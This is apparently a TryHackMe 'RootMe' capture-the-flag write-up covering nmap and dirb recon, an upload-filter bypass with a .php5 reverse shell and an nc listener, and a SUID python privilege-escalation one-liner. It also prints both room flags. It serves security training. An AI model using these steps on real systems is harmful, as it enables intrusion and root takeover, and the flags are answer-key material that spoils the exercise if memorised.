 ```yaml
---
tags:
  - Linux
  - tryhackme
---
```

Target is:  (Given)
# Recon
nmap 10.10.203.220 --top-ports 4000 -T5  --open -oN openPorts.txt
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http

nmap -sC -sV 10.10.203.220 -p22,80 -T5 --open -oN rootMe-nmap-run1.txt 
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
	|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
	|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	|_http-title: HackIT - Home
	|_http-server-header: Apache/2.4.29 (Ubuntu)
	| http-cookie-flags: 
	|   /: 
	|     PHPSESSID: 
	|_      httponly flag not set
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

time to look for a hidden directory

dirb 10.10.203.220
	-----------------
	DIRB v2.22    
	By The Dark Raver
	-----------------
	
	START_TIME: Tue Oct 31 00:44:28 2023
	URL_BASE: http://10.10.203.220/
	WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
	
	-----------------
	
	                                                                            GENERATED WORDS: 4612
	
	---- Scanning URL: http://10.10.203.220/ ----
	                                                                                                                                                        ==> DIRECTORY: http://10.10.203.220/css/
	+ http://10.10.203.220/index.php (CODE:200|SIZE:616)                       
	                                                                            ==> DIRECTORY: http://10.10.203.220/js/
	                                                                            ==> DIRECTORY: http://10.10.203.220/panel/

dirbuster
![[Pasted image 20231031025002.png]]

Now onto the site which is a file upload site
![[Pasted image 20231031025251.png]]

Let's try to upload a web server reverse shell
Revshells.com

hostname -I
	10.18.39.123

Prep the listener
	nc -nlvp 4444

![[Pasted image 20231031030009.png]]

.php is not allowed
	try the alts
		**.php3, .php4, .php5, .php7, .pthml, .pht.**


php5 works
![[Pasted image 20231031030331.png]]


# Access
![[Pasted image 20231031030436.png]]

File exploring
	www-data@rootme:/var/www$ cat user.txt
	cat user.txt
	THM{y0u_g0t_a_sh3ll}


# Priv Esc
www-data@rootme:/var/www$ find / -perm -u=s -type f 2>/dev/null
	find / -perm -u=s -type f 2>/dev/null
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/usr/lib/snapd/snap-confine
	/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/openssh/ssh-keysign
	/usr/lib/policykit-1/polkit-agent-helper-1
	/usr/bin/traceroute6.iputils
	/usr/bin/newuidmap
	/usr/bin/newgidmap
	/usr/bin/chsh
	**/usr/bin/python**
	/usr/bin/at
	/usr/bin/chfn
	/usr/bin/gpasswd
	/usr/bin/sudo
	/usr/bin/newgrp
	/usr/bin/passwd
	/usr/bin/pkexec
	/snap/core/8268/bin/mount
	/snap/core/8268/bin/ping
	/snap/core/8268/bin/ping6
	/snap/core/8268/bin/su
	/snap/core/8268/bin/umount
	/snap/core/8268/usr/bin/chfn
	/snap/core/8268/usr/bin/chsh
	/snap/core/8268/usr/bin/gpasswd
	/snap/core/8268/usr/bin/newgrp
	/snap/core/8268/usr/bin/passwd
	/snap/core/8268/usr/bin/sudo
	/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/snap/core/8268/usr/lib/openssh/ssh-keysign
	/snap/core/8268/usr/lib/snapd/snap-confine
	/snap/core/8268/usr/sbin/pppd
	/snap/core/9665/bin/mount
	/snap/core/9665/bin/ping
	/snap/core/9665/bin/ping6
	/snap/core/9665/bin/su
	/snap/core/9665/bin/umount
	/snap/core/9665/usr/bin/chfn
	/snap/core/9665/usr/bin/chsh
	/snap/core/9665/usr/bin/gpasswd
	/snap/core/9665/usr/bin/newgrp
	/snap/core/9665/usr/bin/passwd
	/snap/core/9665/usr/bin/sudo
	/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/snap/core/9665/usr/lib/openssh/ssh-keysign
	/snap/core/9665/usr/lib/snapd/snap-confine
	/snap/core/9665/usr/sbin/pppd
	/bin/mount
	/bin/su
	/bin/fusermount
	/bin/ping
	/bin/umount

Python exists which is great

https://gtfobins.github.io/gtfobins/python/#suid

Basically run this command
	**python -c 'import os; os.execl("/bin/sh", "sh", "-p")'**

![[Pasted image 20231031031534.png]]

cat root.txt
	THM{pr1v1l3g3_3sc4l4t10n}

Boot2Root